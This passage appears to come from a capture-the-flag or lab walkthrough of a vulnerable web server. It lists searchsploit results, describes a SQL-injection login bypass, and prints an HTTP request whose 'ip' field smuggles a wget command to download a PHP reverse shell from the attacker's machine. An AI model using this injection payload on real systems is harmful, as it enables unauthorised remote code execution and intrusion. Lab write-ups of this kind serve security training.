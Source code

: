 ```java
OmniHTTPd 1.1/2.0.x/2.4 - Sample Application URL Encoded Newline HTML Injection      | exploits/windows/remote/21757.txt
OmniHTTPd 1.1/2.0.x/2.4 - test.shtml Sample Application Cross-Site Scripting         | exploits/windows/remote/21754.txt
Omnicron OmniHTTPd 1.1/2.0 Alpha 1 - 'visiadmin.exe' Denial of Service               | exploits/windows/dos/20304.txt
Omnicron OmniHTTPd 2.0.4-8 - File Source Disclosure                                  | exploits/windows/remote/20886.txt
Omnicron OmniHTTPd 2.0.7 - File Corruption / Command Execution                       | exploits/windows/remote/20557.pl
RaidenHTTPD 2.0.19 - 'ulang' Remote Command Execution                                | exploits/windows/remote/4747.vbs
------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```

The SSH and Web server are not vulnerability can be used
Then, we browse the web page, and find the login page





### 2. Passing login page with SQL injection
* We try SQL injection to pass the login authentication, and success pass authentication

![](https://i.imgur.com/6X8MW7k.png)


![](https://i.imgur.com/Ca0ufgr.png)



### 3. Discover injection point and get reverse shell

* We disvocer remote code execution vulnerability in parameter "id",and try to get reverse shell
![](https://i.imgur.com/szPwEYe.png)
![](https://i.imgur.com/oii4McV.png)



```java
POST /pingit.php HTTP/1.1
Host: 192.168.2.22
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.22/index.php
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

ip=8.8.8.8;wget http://192.168.2.13/php-reverse-shell.php &submit=submit
```
![](https://i.imgur.com/BVKwGb0.png)
